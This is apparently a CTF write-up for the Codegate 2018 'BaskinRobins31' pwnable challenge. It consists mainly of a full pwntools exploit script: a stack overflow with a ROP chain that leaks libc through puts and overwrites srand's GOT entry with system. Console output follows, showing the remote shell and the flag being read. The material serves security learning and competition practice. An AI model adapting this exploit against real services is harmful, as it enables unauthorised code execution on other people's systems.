

# Codegate 2018 Prequal Pwnable BaskinRobins31

## Overview

```
BaskinRobins31 - 217pts (Pwn)
nc ch41l3ng3s.codegate.kr 3131
Solve 30
```

[Download](https://s3.ap-northeast-2.amazonaws.com/codegate2018/4b9a5f57118bcfb6db1d0991af9e4159)

## Solve

### Analysis

The vulnerability is in the `your_turn` function.



### Code

```python
from pwn import *

context.arch = "amd64"
# context.log_level = "DEBUG"

e = ELF("./BaskinRobins31")

isRemote = True

if isRemote:
    p = remote("ch41l3ng3s.codegate.kr", 3131)
else:
    p = process("./BaskinRobins31")
    attach(p, "b *0x0000000000400979\nc")

    raw_input("wait..")

p.recvuntil("### The one that take the last match win ###\n")

read_got = 0x0
pppr = next(e.search(asm("pop rdi; pop rsi; pop rdx; ret")))
pr = next(e.search(asm("pop rdi; ret")))

payload = ""

payload += "4\x00" + "A"*0xB6

payload += flat(pppr, 0x0, e.bss(), 0x8, e.plt["read"])
payload += flat(pr, e.got["puts"], e.plt["puts"])
payload += flat(pppr, 0x0, e.got["srand"], 0x8, e.plt["read"])
payload += flat(pr, e.bss(), e.plt["srand"])

p.sendlineafter("? (1-3)\n", payload)

p.recvuntil("rules...:( \n")

p.send("/bin/sh\x00")

recv = p.recv()[:-1]
puts_got = u64(recv + "\x00"*(8-len(recv)))
print("[*] puts_got is " + hex(puts_got))

# libc6_2.23-0ubuntu9_amd64
p.send(p64(puts_got - 0x6f690 + 0x45390))

p.interactive()
```

### Output

```
shgroup@ubuntu:/mnt/hgfs/Writeup/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31$ python solve.py 
[*] '/mnt/hgfs/Writeup/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[*] puts_got is 0x7f588403a690
[*] Switching to interactive mode
$ ls
BaskinRobins31
flag
$ cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
$  
```

### Flag

`The Korean name of "Puss in boots" is "My mom is an alien"`